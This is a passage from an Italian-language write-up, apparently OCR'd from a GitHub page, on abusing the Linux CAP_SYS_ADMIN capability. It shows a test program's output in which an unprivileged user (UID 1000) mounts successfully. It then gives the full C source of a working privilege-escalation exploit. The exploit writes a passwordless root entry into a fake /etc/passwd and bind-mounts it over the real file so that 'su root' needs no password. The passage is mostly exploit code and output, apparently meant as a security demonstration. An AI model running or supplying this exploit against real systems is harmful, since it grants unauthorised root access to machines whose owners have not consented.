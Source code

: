 ```bash
```

**Output**:
```
=== CAP_SYS_ADMIN Test Program ===
UID: 1000, EUID: 1000
Current capabilities: cap_wake_alarm=i cap_sys_admin+ep
Testing mount...
✅ SUCCESS: Mount worked!
```

**Analisi**: Mount operation successful con UID 1000 (utente normale)!

#### Exploit Tipo 2 - Passwd Hijacking Attempt

```c
// File: complete_exploit.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mount.h>

int main() {
    printf("=== COMPLETE CAP_SYS_ADMIN EXPLOIT ===\n");
    printf("Current user: UID %d (not root!)\n", getuid());
    
    // Step 1: Create fake passwd
    printf("\n1. Creating fake /etc/passwd...\n");
    system("mkdir -p /tmp/fake_etc");
    system("echo 'root::0:0:root:/root:/bin/bash' > /tmp/fake_etc/passwd");
    
    printf("Fake passwd content:\n");
    system("cat /tmp/fake_etc/passwd");
    
    // Step 2: Show original passwd
    printf("\n2. Original /etc/passwd (first line):\n");
    system("head -1 /etc/passwd");
    
    // Step 3: Bind mount attack
    printf("\n3. Performing bind mount attack...\n");
    if (mount("/tmp/fake_etc/passwd", "/etc/passwd", NULL, MS_BIND, NULL) == 0) {
        printf("✅ SUCCESS: /etc/passwd replaced!\n");
        
        printf("\n4. New /etc/passwd content:\n");
        system("head -1 /etc/passwd");
        
        printf("\n🎯 ROOT ACCESS ACHIEVED!\n");
        printf("You can now: su root (no password needed)\n");
        
        printf("\nPress Enter to restore system...");
        getchar();
        
        // Cleanup
        umount("/etc/passwd");
        printf("✅ System restored.\n");
    } else {
        perror("❌ Bind mount failed");
    }
    
    system("rm -rf /tmp/fake_etc");
    return 0;
}
```
